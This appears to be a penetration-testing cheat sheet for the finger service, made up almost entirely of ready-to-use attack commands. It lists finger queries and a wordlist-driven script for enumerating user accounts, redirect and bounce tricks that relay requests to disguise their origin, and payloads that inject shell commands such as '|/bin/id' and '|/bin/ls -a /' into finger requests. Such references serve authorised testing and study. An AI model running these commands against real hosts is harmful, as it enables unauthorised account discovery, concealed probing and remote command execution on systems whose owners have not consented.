 ## User enumeration
```
finger @example.com
finger 'a b c d e f g h' @example.com
finger '1 2 3 4 5 6 7 8 9 0'@target_host
finger admin@example.com
finger user@example.com
finger 0@example.com
finger .@example.com
finger **@example.com
finger test@example.com
```

[http://pentestmonkey.net/tools/user-enumeration/finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)
```
finger-user-enum.pl -U seclists/Usernames/Names/names.txt -t <ip>
```
https://github.com/s0wr0b1ndef/OSCP-note/blob/master/ENUMERATION/FINGER/finger_enum_user.sh

## Finger Redirect

```
finger @target_host1@target_host2
```

## Command execution
```
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Finger Bounce

Hop from one finger deamon to another. Request will get logged as if it arrived from a relay.

```
finger@host.com@victim.com
```

## References

### Summarized References
- Giving the Finger to port 79 / Simple Finger Deamon Tutorial by Paris2K: http://cd.textfiles.com/hmatrix/Tutorials/hTut_0269.html
- http://0daysecurity.com/penetration-testing/enumeration.html
